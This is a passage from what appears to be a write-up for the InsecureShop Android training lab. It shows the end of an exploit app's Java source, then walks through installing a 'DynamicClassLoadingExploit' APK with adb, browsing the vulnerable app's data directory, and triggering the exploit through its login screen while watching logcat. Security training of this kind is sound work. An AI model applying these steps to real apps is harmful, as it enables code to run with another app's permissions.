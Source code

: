 ```java
            return null;
        }
        return null;
    }
}
```

Build and Install the APK:

```powershell
D:\>adb install DynamicClassLoadingExploit.apk
Performing Push Install 
DynamicClassLoadingExploit.apk: 1 file pushed, 0 skipped. 206.0 MB/s (5256157 bytes in 0.024s)
        pkg: /data/local/tmp/DynamicClassLoadingExploit.apk
Success
```

We need to make sure that we are running commands with the permissions of the vulnerable app, not our exploit app. So let’s get our app ID.

```powershell
D:\> adb shell
root@generic_x86:/ $ cd /data/data/com.insecureshop
u0_a61@generic_x86:/data/data/com.insecureshop $ ls
drwxrwx--x u0_a61   u0_a61            2024-08-26 15:15 app_webview
drwxrwx--x u0_a61   u0_a61            2024-08-28 19:47 cache
drwxrwx--x u0_a61   u0_a61            2024-08-26 13:49 code_cache
drwxrwx--x u0_a61   u0_a61            2024-08-28 18:45 shared_prefs
```

Finally, we open the Insecureshop app into the `loginActivity` to trigger the exploit and click login. Then review the logs:

```powershell
root@generic_x86:/data/data/com.insecureshop $ logcat | grep "MainInterface"
```

![image.png](/assets/InsecureShop/image%2022.png)
